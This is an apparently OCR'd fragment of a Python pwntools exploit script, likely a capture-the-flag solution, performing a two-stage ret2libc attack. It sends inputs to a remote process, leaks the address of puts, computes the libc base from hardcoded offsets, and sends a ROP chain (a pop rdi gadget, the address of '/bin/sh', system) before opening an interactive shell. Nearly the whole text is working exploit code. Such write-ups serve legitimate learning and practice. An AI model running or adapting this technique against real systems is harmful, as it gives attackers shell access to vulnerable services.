 ```python
"""

p.recvuntil("name?")

p.sendline("Amr")

p.recvuntil("message:")

p.sendline("1000")

p.recvuntil("text:")

p.sendline(payload)

p.recvuntil("Thanks!")

leaked = p.recv()[:8].strip().ljust(8, "\x00")

log.success("Leaked Address = " +str(leaked))

leaked = u64(leaked) # converts from string to 64 bit unsigned

puts_libc = 0x705e0

system_libc = 0x435d0

sh_libc = 0x17f573

offset = leaked - puts_libc # offset between any function in the program and its address in libc

sys = p64(offset+system_libc)

sh = p64(offset+sh_libc)

payload2 = junk

payload2 += pop_rdi_gadget

payload2 += sh

payload2 += sys

# when the program returns to main function from first payload i noticedthat

# it waited for the name input

p.sendline("Amr")

p.recvuntil("message:")

p.sendline("1000")

p.recvuntil("text:")

p.sendline(payload2)

p.recvuntil("Thanks!")

p.interactive()
```
